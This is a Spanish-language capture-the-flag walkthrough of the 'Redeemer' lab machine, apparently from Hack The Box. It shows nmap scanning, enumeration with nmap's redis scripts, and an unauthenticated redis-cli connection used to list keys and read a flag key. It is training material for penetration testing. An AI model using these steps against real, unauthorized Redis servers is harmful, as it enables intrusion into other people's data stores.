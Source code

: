 # Redeemer

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.130.151

PING 10.129.130.151 (10.129.130.151) 56(84) bytes of data.
64 bytes from 10.129.130.151: icmp_seq=1 ttl=63 time=166 ms

--- 10.129.130.151 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 165.615/165.615/165.615/0.000 ms
```

> **Sistema operativo**: Linux

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.130.151 -oG openPorts

PORT     STATE SERVICE REASON
6379/tcp open  redis   syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 6379 -sCV 10.129.130.151 -oN targeted

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

| Puerto | Servicio | Versión                     |
| ------ | -------- | --------------------------- |
| 6379   | redis    | Redis key-value store 5.0.7 |

¿Qué es **Redis**?  
[Web Oficial](https://redis.io/)

🗹 Buscar scripts de **nmap** relacionados al servicio **redis**:

```shell
find /usr/share/nmap/scripts -name *redis* 2>/dev/null

/usr/share/nmap/scripts/redis-info.nse
/usr/share/nmap/scripts/redis-brute.nse
```

🗹 Ejecutar scripts relacionados al servicio **redis** sobre el puerto **6379**:

```shell
sudo nmap -p 6379 --script "*redis*" 10.129.130.151

PORT     STATE SERVICE
6379/tcp open  redis
| redis-info: 
|   Version: 5.0.7
|   Operating System: Linux 5.4.0-77-generic x86_64
|   Architecture: 64 bits
|   Process ID: 752
|   Used CPU (sys): 2.199500
|   Used CPU (user): 2.184066
|   Connected clients: 1
|   Connected slaves: 0
|   Used memory: 839.48K
|   Role: master
|   Bind addresses: 
|     0.0.0.0
|     ::1
|   Client connections: 
|_    10.10.14.71
```

🗹 Acceder a la base de datos de **redis**:

```shell
redis-cli -h 10.129.130.151

10.129.130.151:6379> 
```
## Flag

 🗹 Ejecutar los siguientes comandos para obtener la flag:

```shell
10.129.130.151:6379> info keyspace
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
(1.23s)
10.129.130.151:6379> select 0
OK
10.129.130.151:6379> keys *
1) "flag"
2) "temp"
3) "numb"
4) "stor"
(1.05s)
10.129.130.151:6379> get flag
```
